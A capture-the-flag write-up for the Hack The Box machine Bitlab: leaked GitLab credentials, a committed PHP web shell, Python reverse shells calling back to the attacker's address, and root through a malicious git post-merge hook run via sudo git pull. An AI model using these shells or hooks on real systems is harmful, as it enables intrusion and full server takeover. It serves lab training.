






# <span style="color:red">HTB Bitlab (10.10.10.114)</span>

---

### TABLE OF CONTENTS

* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 22 (ssh)](#tcp-port-22-ssh)
  * [TCP PORT 80 (http)](#tcp-port-80-http)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : PRIVILEGE ESCALATION (www-data -&gt; root)](#part-4--privilege-escalation-www-data---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 15000 -p- -v 10.10.10.114

  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

$ nmap -p 22,80 -sC -sV -T4 10.10.10.114

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
  |   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
  |_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
  80/tcp open  http    nginx
  | http-robots.txt: 55 disallowed entries (15 shown)
  | / /autocomplete/users /search /api /admin /profile 
  | /dashboard /projects/new /groups/new /groups/*/edit /users /help 
  |_/s/ /snippets/new /snippets/*/edit
  | http-title: Sign in \xC2\xB7 GitLab
  |_Requested resource was http://10.10.10.114/users/sign_in
  |_http-trane-info: Problem with XML parsing of /evox/about
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

---

## PART 2 : PORT ENUMERATION

### TCP PORT 22 (ssh)

```console
$ ssh 10.10.10.114

  The authenticity of host '10.10.10.114 (10.10.10.114)' can't be established.
  ECDSA key fingerprint is SHA256:hNHxoptKsWqkzdME7Bfb+cGjskcAAGySJazK+gDDCHQ.
$ Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

$ root@10.10.10.114's password: 

  Permission denied, please try again.

$ root@10.10.10.114's password: 

  Permission denied, please try again.

$ root@10.10.10.114's password: 

  root@10.10.10.114: Permission denied (publickey,password).

```

The <strong style="color:orange">OpenSSH</strong> service can be authenticated using a publickey or by simply using a password. If this service will be useful, either a <strong style="color:orange">private key</strong> or <strong style="color:orange">user credentials</strong> might be hidden in the <strong style="color:orange">http</strong> service.

### TCP PORT 80 (http)

Opening __`http://10.10.10.114/`__ on your browser leads you to a <strong style="color:orange">GitLab Login Page</strong>:



Viewing the page source doesn't seem to yield anything relevant; on the bottom of the page, however, are the links __`Explore`__, __`Help`__, and __`About GitLab`__ which leads to:

<div style="overflow-x:auto"><table>
  <tr>
    <th>LINK</th>
    <th>LOCATION</th>
  </tr>
  <tr>
    <td><strong style="color:orange"><code class="highlighter-rouge">About Gitlab</code></strong></td>
    <td><strong style="color:orange"><code class="highlighter-rouge">https://about.gitlab.com</code></strong></td>
  </tr>
  <tr>
    <td><strong style="color:orange"><code class="highlighter-rouge">Explore</code></strong></td>
    <td>a page where you can view <strong style="color:orange"><code class="highlighter-rouge">Projects</code></strong>, <strong style="color:orange"><code class="highlighter-rouge">Groups</code></strong>, and <strong style="color:orange"><code class="highlighter-rouge">Snippets</code></strong> that are publicly available inside the box but there are none at the moment.</td>
  </tr>
  <tr>
    <td><strong style="color:orange"><code class="highlighter-rouge">Help</code></strong></td>
    <td>The following image</td>
  </tr>
</table></div>



__`/help`__ is a directory (rather than a rendered page) which contains a file called __`bookmarks.html`__ which when opened:


With the following page source:

```html
<html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
<title>Bookmarks</title>
</head><body><h1>Bookmarks</h1>
<dl><p>
    </p><dt><h3 add_date="1564422476" last_modified="0" personal_toolbar_folder="true">Bookmarks bar</h3>
    <dl><p>
        </p><dt><a href="https://www.hackthebox.eu/" add_date="1554931938" icon="">Hack The Box :: Penetration Testing Labs</a>
        </dt><dt><a href="https://www.docker.com/" add_date="1554931981" icon="">Enterprise Application Container Platform | Docker</a>
        </dt><dt><a href="https://www.php.net/" add_date="1554931999" icon="">PHP: Hypertext Preprocessor</a>
        </dt><dt><a href="https://nodejs.org/en/" add_date="1554932008" icon="">Node.js</a>
        </dt><dt><a href="javascript:(function(){ var _0x4b18=[&quot;\x76\x61\x6C\x75\x65&quot;,&quot;\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E&quot;,&quot;\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64&quot;,&quot;\x63\x6C\x61\x76\x65&quot;,&quot;\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64&quot;,&quot;\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78&quot;];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; })()" add_date="1554932142">Gitlab Login</a>
    </dt></dl><p>
</p></dt></dl><p>

</p></body></html>
```

All links lead to __`https://`__ websites except for __`Gitlab Login`__ which is referenced to an obfuscated javascript function.

After cleaning the js code a bit:

```js
javascript:(
  function(){
    var _0x4b18=["\x76\x61\x6C\x75\x65", "\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64", "\x63\x6C\x61\x76\x65", "\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64", "\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; 
  }
)()
```

then converting the hex values to ASCII characters:

```js
javascript:(
  function(){
    var _0x4b18=["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]= _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]= _0x4b18[5]; 
  }
)()
```

which is essentially:

```js
javascript:(
  function(){
    document["getElementById"]("user_login")["value"]="clave";
    document["getElementById"]("user_password")["value"]="11des0081x";
  }
)()
```

It reveals a credential pair __`clave`__ : __`11des0081x`__. Using it to login via SSH fails but using it to login to the <strong style="color:orange">GitLab</strong> service:



Before checking the contents of the available repositories, I first checked the __`clave`__'s account settings and it brought me to __`http://10.10.10.114/profile/`__:


which was very weird and it led me to believe that the __`Profile`__ repository listed above was rendered.



Since the __`Profile`__ repository contains an __`index.php`__ file, I tried loading __`http://10.10.10.114/profile/index.php`__ which gave me the same page generated when I checked __`clave`__'s account settings. My assumption that the mentioned repository was rendered was further supported.

Aside from that, is the fact that GitLab has [<strong style="color:orange">CI/CD (Continuous Integration, Continuous Delivery and Deployment)</strong>](https://docs.gitlab.com/ee/ci/README.html) support which is most likely in use since __`Auto DevOps`__ was also enabled for the repository.

<strong style="color:orange">Continuous Integration</strong>

> "For every push to the repository, you can create a set of scripts to build and test your application automatically, decreasing the chance of introducing errors to your app."

<strong style="color:orange">Continuous Delivery</strong>

> "Your application is not only built and tested at every code change pushed to the codebase, but, as an additional step, it’s also deployed continuously, though the deployments are triggered manually."

<strong style="color:orange">Continuous Deployment</strong>

> "Similar to Continuous Delivery; the difference is that instead of deploying your application manually, you set it to be deployed automatically."

---

## PART 3 : EXPLOITATION

Since the assumption so far is that the contents of the __`Profile`__ is being rendered on the URL, __`http://10.10.10.114/profile/`__, and that the current user has access to the repository perhaps a webshell written in PHP could be added to the repository then accessed.



It's just a short code which reads:

```php
<?php echo shell_exec($_GET["cmd"]); ?>
```

Commit then merge by pressing the following buttons: __`Commit changes`__ -> __`Submit merge request`__ -> __`Merge`__

Then I used __`curl`__ to check if the webshell works:

```console
$ cmd="id"; curl --data-urlencode "cmd=$cmd" -G http://10.10.10.114/profile/shell.php

  uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ cmd="uname -mnos"; curl --data-urlencode "cmd=$cmd" -G http://10.10.10.114/profile/shell.php

  Linux bitlab x86_64 GNU/Linux

```

It works! Now, to establish an actual reverse shell:

1. Establish a listener on your local machine:

   ```console
   $ nc -lvp 4444

     listening on [any] 4444 ...

   ```

2. Then execute a python reverse shell using the webshell from earlier: 

   ```console
   $ ifconfig tun0 | grep inet 
   
     inet 10.10.15.19  netmask 255.255.254.0  destination 10.10.15.19
     inet6 dead:beef:2::1111  prefixlen 64  scopeid 0x0<global>
     inet6 fe80::3099:61c7:b1cd:58a1  prefixlen 64  scopeid 0x20<link>
   
   $ shell='
   > import socket,subprocess,os;
   > s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   > s.connect(("10.10.15.19", 4444));
   > os.dup2(s.fileno(),0);
   > os.dup2(s.fileno(),1); 
   > os.dup2(s.fileno(),2);
   > p=subprocess.call(["/bin/sh","-i"]);
   > '
   
   $ cmd="python -c '$shell'"
   
   $ curl --data-urlencode "cmd=$cmd" -G http://10.10.10.114/profile/shell.php
   
   ```

3. Going back to the listener:

   <div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code>
   <span class="go">  10.10.10.114: inverse host lookup failed: Unknown host
     connect to [10.10.15.19] from (UNKNOWN) [10.10.10.114] 54902</span>
   <span class="gp">  /bin/sh: 0: can't access tty;</span><span class="w"> </span>job control turned off
   <span class="go"></span>
   <span class="gp">$</span><span class="w"> </span>python <span class="nt">-c</span> <span class="s1">'import pty; pty.spawn("/bin/bash")'</span>
   <span class="go"></span>
   <span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/var/www/html/profile</span>$</span><span class="w"> </span><span class="nb">cat</span> /etc/passwd | <span class="nb">grep</span> <span class="nt">-E</span> <span class="s2">"*sh$"</span>
   <span class="go">
     root:x:0:0:root:/root:/bin/bash
     clave:x:1000:1000::/home/clave:/bin/bash 
   </span>
   </code></pre></div></div>

---

## PART 4 : PRIVILEGE ESCALATION (www-data -> root)

One of the first things I try is to look for commands I could execute with higher privileges:

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/var/www/html/profile</span>$</span><span class="w"> </span><span class="nb">sudo</span> <span class="nt">-l</span>
<span class="go">
  Matching Defaults entries for www-data on bitlab:
      env_reset, exempt_group=sudo, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User www-data may run the following commands on bitlab:
      (root) NOPASSWD: /usr/bin/git pull
</span>
</code></pre></div></div>

It seems like the current user (__`www-data`__) could run the __`git pull`__ command as root. While searching for an exploit, I came across the <strong style="color:orange">post-merge hook</strong>.

Basically, <strong style="color:orange">git hooks</strong> are <strong style="color:red">custom bash scripts</strong> that run when a certain action occurs. There are two types of hooks -- Client-side and Server-side hooks.

<strong style="color:orange">Client-side Hooks</strong>

> Triggered by operations such as committing and merging

<strong style="color:orange">Server-side Hooks</strong>

> Runs on network operations such as receiving pushed commits

And <strong style="color:orange">post-merge</strong> runs after a successful merge command. This comes in handy since __`git pull`__ (which we can execute with a higher privilege) works by first running __`git fetch`__ to download contents from the remote repository then __`git merge`__ the remote and local contents of the repository.

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/var/www/html</span>$</span><span class="w"> </span><span class="nb">ls</span> <span class="nt">-lh</span>
<span class="go">
  drwxr-xr-x 3 root root 4.0K Feb 26  2019 deployer
  drwxr-xr-x 2 root root 4.0K Jul 30 19:56 help
  -rw-r--r-- 1 root root  11K Jan  1  2019 index.html
  drwxr-xr-x 3 root root 4.0K Jan 10 17:57 profile
</span>
<span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/var/www/html</span>$</span><span class="w"> </span>git <span class="nt">-h</span>
<span class="go">
  bash: /usr/bin/git: Permission denied
</span>
</code></pre></div></div>

All local copies of the repositories are owned by root so we should have a copy of the repository that we can control and write to. Since the repositories are readable by all users, we could just copy it to a directory of our choosing.

In addition, the __`git`__ command, in general, could not be used by the current user so cloning the repository is out of the question. Instead, I used __`cp`__.

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/var/www/html/profile</span>$</span><span class="w"> </span><span class="nb">cd</span> /dev/shm
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm</span>$</span><span class="w"> </span><span class="nb">cp</span> <span class="nt">-r</span> /var/www/html/profile/ ./
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm</span>$</span><span class="w"> </span><span class="nb">cd </span>profile
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile</span>$</span><span class="w"> </span><span class="nb">ls</span> <span class="nt">-la</span>
<span class="go">
  total 112
  drwxr-xr-x 3 www-data www-data   160 Jan 10 17:59 .
  drwxrwxrwt 3 root     root        60 Jan 10 17:59 ..
  drwxr-xr-x 8 www-data www-data   300 Jan 10 17:59 .git
  -rw-r--r-- 1 www-data www-data    42 Jan 10 17:59 .htaccess
  -rw-r--r-- 1 www-data www-data   110 Jan 10 17:59 README.md
  -rw-r--r-- 1 www-data www-data 93029 Jan 10 17:59 developer.jpg
  -rw-r--r-- 1 www-data www-data  4184 Jan 10 17:59 index.php
  -rw-r--r-- 1 www-data www-data    40 Jan 10 17:59 shell.php

</span></code></pre></div></div>

The only thing left is to create the <strong style="color:orange">post-merge hook</strong> then perform a successful merge action.

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile</span>$</span><span class="w"> </span><span class="nb">cd</span> .git/hooks
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile/.git/hooks</span>$</span><span class="w"> </span><span class="nb">echo</span> <span class="nt">-e</span> <span class="s2">"</span><span class="se">\x</span><span class="s2">23</span><span class="se">\x</span><span class="s2">21/bin/bash"</span> <span class="o">&gt;</span> post-merge
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile/.git/hooks</span>$</span><span class="w"> </span><span class="nb">echo</span> <span class="s2">""</span> <span class="o">&gt;&gt;</span> post-merge
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile/.git/hooks</span>$</span><span class="w"> </span><span class="nb">echo</span> <span class="nt">-e</span> <span class="s1">'shell=\x27
</span><span class="gp">&gt;</span><span class="w"> </span><span class="s1">import socket,subprocess,os;
</span><span class="gp">&gt;</span><span class="w"> </span><span class="s1">s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
</span><span class="gp">&gt;</span><span class="w"> </span><span class="s1">s.connect(("10.10.15.19", 6969));
</span><span class="gp">&gt;</span><span class="w"> </span><span class="s1">os.dup2(s.fileno(),0);
</span><span class="gp">&gt;</span><span class="w"> </span><span class="s1">os.dup2(s.fileno(),1); 
</span><span class="gp">&gt;</span><span class="w"> </span><span class="s1">os.dup2(s.fileno(),2);
</span><span class="gp">&gt;</span><span class="w"> </span><span class="s1">p=subprocess.call(["/bin/sh","-i"]);
</span><span class="gp">&gt;</span><span class="w"> </span><span class="s1">\x27'</span> <span class="o">&gt;&gt;</span> post-merge
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile/.git/hooks</span>$</span><span class="w"> </span><span class="nb">echo</span> <span class="s2">""</span> <span class="o">&gt;&gt;</span> post-merge
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile/.git/hooks</span>$</span><span class="w"> </span><span class="nb">echo</span> <span class="s1">'python -c "$shell"'</span> <span class="o">&gt;&gt;</span> post-merge
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile/.git/hooks</span>$</span><span class="w"> </span><span class="nb">chmod</span> +x post-merge
<span class="go">
</span><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile/.git/hooks</span>$</span><span class="w"> </span><span class="nb">cat </span>post-merge
</code></pre></div></div>

Since I won't have access to the terminal that runs the __`post-merge`__ file, I decided to execute another reverse shell.

The created __`post-merge`__ file looks like this:

```sh
#!/bin/bash

shell='
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.15.19", 6969));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
'

python -c "$shell"
```

To have a successful merge, the __`git pull`__ command must first have new content to download from the remote repository so I created a new file



Then I commit and merge the new file by pressing the following buttons: __`Commit changes`__ -> __`Submit merge request`__ -> __`Merge`__.

All that's left now is to set-up a listener for the root reverse shell then run __`git pull`__ using __`sudo`__.

```console
$ nc -lvp 6969

  listening on [any] 6969 ...

```

Then on the __`www-data`__ shell:

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp"><span class="user_host">www-data@bitlab</span>:<span class="sys_dir">/dev/shm/profile</span>$</span><span class="w"> </span><span class="nb">sudo</span> /usr/bin/git pull
<span class="go">
  remote: Enumerating objects: 9, done.
  remote: Counting objects: 100% (9/9), done.
  remote: Compressing objects: 100% (6/6), done.
  Unpacking objects: 100% (8/8), done.
  remote: Total 8 (delta 4), reused 0 (delta 0)
  From ssh://localhost:3022/root/profile
</span><span class="gp">     10c3aeb..37e0223  master     -&gt;</span><span class="w"> </span>origin/master
<span class="gp">   * [new branch]      test       -&gt;</span><span class="w"> </span>origin/test
<span class="go">  Updating 10c3aeb..37e0223
  Fast-forward
   root           | 1 +
   1 files changed, 1 insertions(+)
   create mode 100644 root

</span></code></pre></div></div>

Then back to the established listener:

```console

  10.10.10.114: inverse host lookup failed: Unknown host
  connect to [10.10.15.19] from (UNKNOWN) [10.10.10.114] 46978

# id

  uid=0(root) gid=0(root) groups=0(root)

# hostname

  bitlab

# cat /root/root.txt

  8d4c........................587c

# find /home -name user.txt -exec cat {} +          

  1e3f........................8154

```

This is one of two methods for rooting the box. I have yet to figure out how to do the other one. Thanks for reading. :)
